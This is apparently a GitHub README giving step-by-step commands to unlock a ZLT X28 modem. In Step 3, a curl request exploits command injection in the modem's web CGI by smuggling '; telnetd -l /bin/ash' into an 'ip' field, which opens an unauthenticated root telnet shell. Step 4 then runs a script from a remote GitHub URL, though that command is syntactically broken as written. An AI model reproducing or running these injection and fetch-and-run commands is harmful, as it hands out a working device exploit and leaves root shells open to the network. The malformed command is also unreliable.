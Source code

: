 <!-- README.md -->

# 🔓 ZLT X28 | ZLT X28 Modem Unlock

---

### ✨ ZLT X28 Modem Unlock & Custom Admin Panel
![](img/zlt.jpg)


### 📊 Device Specifications

| Model | Software Version |
|------------|----------------|
| ZLT X28    | 1.5.13         |

## 🚨 Serious warning
**If your modem version is different and you use this method, the modem panel will break.**

---
## Overview  
The ZLT X28 modem is based on a customized snapshot of [OpenWrt](https://www.google.com/search?q=OpenWrt). Unlocking this modem is straightforward but requires access to another modem (any brand or model) with an active internet connection.  

## Prerequisites  
- A second modem with internet access  
- LAN cable  
- Basic command-line knowledge  

## Step 1: Obtain `sessionId`  
Before anything else, you need to extract the ‍`sessionId`.  

Open your browser’s **Developer Tools**. The default shortcuts are:  

- **Windows/Linux**:  
  - `F12` → Opens the last used developer tools panel  
  - `Ctrl + Shift + I` → Opens developer tools  
  - `Ctrl + Shift + J` → Opens the Console panel  
  - `Ctrl + Shift + C` → Opens the Elements panel  

- **macOS**:  
  - `Option + Command + I` → Opens developer tools  
  - `Option + Command + J` → Opens the Console panel  
  - `Option + Command + C` → Opens the Elements panel  

- **Other methods**:  
  - Right-click any element → **Inspect / Inspect Element**  
  - Safari: Enable the Developer menu in **Preferences > Advanced**, then use **Develop > Show Web Inspector**.  

Inside Developer Tools, switch to the **Network** tab, select any request, and copy the `sessionId` value. Save it for later use.  

![](img/sessionId.png)

## Step 2: Enable WAN  
Connect a LAN cable from the internet-enabled modem to **Port 1** of the ZLT X28. This step is mandatory to activate **DMZ**, which cannot be enabled otherwise.  

Next, activate **WAN** on the ZLT X28 as shown below:  

![](img/enable-wan.png)

You can also enable WAN with this command and replacing `sessionId`.
```bash
curl 'https://192.168.70.1/cgi-bin/http.cgi' -X POST --data-raw '{"method":"POST","cmd":302,"LinkMode":"linkIP","IpVersion":"IPV4","IpMode":"dhcp","MTU":1500,"MRU":"","IpAddr4":"","Submask4":"","Gateway4":"","FirstDns4":"","SecDns4":"","NatEnable":"1","UserName":"","PassWd":"","priorityStrategy":"1","uisMode":"0","networkMode":"2","wifiMode2":"0","wifiMode5":"0","MacClone":"","vlanId":"","Dhcpv6Mode":"Yes","IpAddr6":"","IpAddr6Len":"","Gateway6":"","FirstDns6":"","SecDns6":"","wanRouter":"1","apnRouter0":"0","apnRouter1":"0","apnRouter2":"0","apnRouter3":"0","wifi2Router":"0","wifi5Router":"0","token":"cd55e4e9b9e941b0bf949db815d104d9","language":"EN","sessionId":"<YOUR_SESSION_ID>"}' -k

```

## Step 3: Enable Telnet  
Run the following command from your system’s terminal, replacing the placeholder `sessionId` with the one you retrieved earlier:  

```bash
curl 'https://192.168.70.1/cgi-bin/http.cgi' \
--data-raw '{"enabled":"1","ip":"192.168.1.1 ; telnetd -l /bin/ash","cmd":172,"method":"POST","success":true,"subcmd":6,"token":"5948b69147b3850eee5e7266188934c5","language":"EN","sessionId":"<YOUR_SESSION_ID>"}' -k
```

After this, Telnet will be enabled. Connect using:

```bash
telnet 192.168.70.1
```
## Step 4: Execute Unlock Script

Once inside Telnet, run the following command:
```bash
sh $(https://github.com/mahdigh782/Unlock-ZLT-X28/raw/refs/heads/main/x28)
```
The modem will restart after a few seconds. Once it powers back on, it will be unlocked.

## Donations

If you found this useful, you can support development via TRON (TRX):

💠 Wallet Address: TXDhVJDtkBUq2KN3QYZW4zDtkJkLLwFVgb


#ZLT_X28 #Modem_Unlock #Admin_Panel_Access #Custom_Modem_UI #Firmware_Upgrade #4G_Modem_Unlock #Network_Unlock_ZLT #ZLT_Admin_Unlock


